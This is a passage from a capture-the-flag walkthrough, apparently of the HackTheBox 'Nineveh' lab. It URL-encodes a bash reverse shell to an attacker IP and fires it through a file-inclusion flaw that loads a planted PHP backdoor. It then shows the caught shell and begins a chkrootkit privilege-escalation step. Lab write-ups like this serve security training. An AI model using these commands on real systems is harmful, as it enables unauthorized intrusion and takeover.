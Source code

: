 Step to gain reverse shell.

Url encode using hURL

```
┌──(Hades㉿10.10.14.5)-[2.0:28.4]~
└─$ hURL -U "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

Execute bash reverse shell at backdoor `ninevehNotes.php`

```
┌──(Hades㉿10.10.14.5)-[2.0:28.4]~
└─$ cmd='bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27'
```

```
┌──(Hades㉿10.10.14.5)-[2.0:28.3]~
└─$ curl --silent --cookie "PHPSESSID=qe89kahpkithaplfechcptbjt5" "http://nineveh.htb/department/manage.php?notes=../../../../../var/tmp/ninevehNotes.php&cmd=$cmd" > /dev/null
```

Reverse shell at listener.

```
┌──(Hades㉿10.10.14.5)-[2.0:28.4]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.43] 37498
bash: cannot set terminal process group (1390): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@nineveh:/var/www/html/department$
```

## Privilege Escalation

### Chkrootkit Local PriEscal

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/nineveh)

I use script `procmon.sh` to check the scheduled tasks in the system.

```
www-data@nineveh:/tmp$ bash procmon.sh
< sleep 1
> sleep 1
> /usr/sbin/CRON -f
> /bin/sh -c /root/vulnScan.sh
> /bin/bash /root/vulnScan.sh
> /bin/sh /usr/bin/chkrootkit
> find /lib /usr/lib /usr/local/lib -name libproc.a
```

